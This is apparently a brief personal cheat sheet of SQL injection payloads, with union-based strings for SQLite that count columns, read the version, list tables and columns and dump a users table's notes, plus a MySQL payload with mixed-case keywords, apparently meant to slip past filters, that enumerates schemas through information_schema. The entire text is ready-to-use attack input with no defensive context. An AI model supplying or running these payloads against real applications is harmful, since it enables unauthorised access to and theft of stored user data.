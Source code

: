 ### SQLI

#### SQLITE

```' order by #``` => to get the number of columns

```' union select (select sqlite_version()),NULL,NULL,NULL--``` => to get the sqlite version

```' union select (select group_concat(name) from sqlite_master where type='table'),NULL,NULL,NULL--``` => to get table names

```' union select (SELECT group_concat(name) FROM PRAGMA_TABLE_INFO('users')),NULL,NULL,NULL--``` => to get column names in a table called users

```' union select (SELECT group_concat(notes) FROM 'users'),NULL,NULL,NULL--``` => to get data from notes column in users table

#### MySQL

we can extract most stuff here using information_schema

for version => @@VERSION => union select (@@VERSION)

search=adm'+union+select+1,1,1,1,1,(gRoUp_cOncaT(0x7c,schema_name,0x7c))+from+information_schema.schemata+--+-